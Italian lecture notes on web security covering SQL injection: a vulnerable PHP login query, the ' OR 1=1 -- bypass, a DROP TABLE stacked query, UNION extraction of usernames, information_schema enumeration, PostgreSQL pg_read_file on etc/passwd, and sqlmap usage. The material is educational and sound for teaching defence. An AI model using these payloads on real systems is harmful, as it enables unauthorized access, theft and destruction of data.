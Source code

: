 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: ["sql injection","sql","php", "sql injection payloads", "sql map"]
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>
## Materiale
* [Slides](/appunti/assets/docs/web_security.pdf)

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è **una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL malevolo**. 

![SQL injection](assets/images/SQL-Injection.jpg)

Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempi:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQL Map
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```